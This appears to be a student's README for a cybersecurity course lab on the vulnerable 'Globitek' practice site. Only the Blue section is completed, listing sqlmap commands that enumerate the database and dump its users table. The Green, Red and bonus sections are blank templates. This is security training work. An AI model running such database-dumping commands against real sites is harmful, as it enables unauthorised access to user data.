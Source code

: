 # Cybersecurity_week8

## Six possible vulnerabilities:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [ ] Cross-Site Request Forgery
- [ ] Session Hijacking/Fixation
## Vulnerabilities I found and exploited:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [x] Bonus Objective 1:
  * Build on the SQL Injection vulnerbility. Experiment to see what other kinds of information one can get the database to reveal.
  
## **Blue** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --current-db' to retrieve the database the website is currently using (which is "globitek_blue")
    2. use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue --tables' to retrieve all of the tables that is in the database
    3. use command: ''sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --dump -D globitek_blue -T users' to retrieve all users' information
  * **GIF walkthrough:**
    * ![sqli](https://user-images.githubusercontent.com/31838335/39098942-fed0c51e-463f-11e8-82c4-e410750e79d1.gif)
    
## **Green** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 
**Vulnerability 2:** SQL Injection
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 

## **Red** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 

## ** Bonus Objective 1: **
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 
